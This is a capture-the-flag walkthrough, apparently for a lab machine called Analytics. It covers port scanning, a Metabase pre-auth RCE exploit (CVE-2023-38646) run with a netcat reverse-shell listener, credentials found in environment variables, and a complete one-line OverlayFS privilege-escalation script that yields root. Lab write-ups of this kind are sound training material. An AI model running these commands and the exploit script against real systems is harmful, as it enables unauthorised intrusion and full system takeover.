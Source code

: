 we start the machine with a simple port scan:
	
	rustscan -a 10.10.11.233
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
for a better scan i run:
	
	nmap -sC -sV -p80,22 10.10.11.233
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
	|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Analytical
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so the first thing i did is visit the webserver on port 80,
but got this:
	
![webserver domain](./pic/ip.png)
	
that means that we need to add it to /etc/hosts:
	
	echo '10.10.11.233	analytical.htb' >> /etc/hosts
after that we can visit the site:
	
![site](./pic/site.png)
	
there is not much clickable in the site apart from the login page. but we need to add another subdomain for this page first:
	
	echo '10.10.11.233	data.analytical.htb' >> /etc/hosts
now we can visit and see this:
	
![login page](./pic/login.png)
	
i immediatly searched for public exploits and PoC and found this:
	
https://github.com/alexandre-pecorilla/CVE-2023-38646
	
but we need to get the token first. I found it thanks to that post:
	
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
	
so we need to visit this endpoint:
	
	/api/session/properties
and check for tokens:
	
![token](./pic/token.png)
	
now that we have the token we can start a listener with:
	
	nc -lvnp 4444
and launch our exploit with:
	
	python3 CVE-2023-38646.py -u http://data.analytics.htb -t [REDACTED] -i 10.10.14.191 -p 4444
WE GOT THE CALLBACK!
now is time for enumeration:
we are inside a docker:
	
	ls -a /
output:
	
	.
	..
	.dockerenv
	[...]
so we need to perform a dockerescape... but how??
so i uploaded linpeas on the machine and found something strange:
	
![credenziali](./pic/creds.png)
	
inside the enviroment variable of the machine there are some creds.
I tried them on ssh and worked!!
so i loged in and submitted the flag.
Time to privesc.
This part took me a while, in fact i dind't find anything on the box so i searched for recent exploits related to this machine,
by running:
	
	uname -a
output:
	
	Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

i found this:
	
https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability
	
and searched more about some exploits.
Finally i found that it maybe vulnerable to overlay exploit.
around there are a lot of PoC.
but i found this:
```bash
#!/bin/bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'"
```
from this reddit post:
	
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/
	
so i run it and GOT ROOT!!
(also we can run this exploit):
	
https://medium.com/@omerbureyde/overlayfs-cve-2021-3493-9f675613fe1e
	
just compile it locally and then upload it to the machine, execute and u will be root!
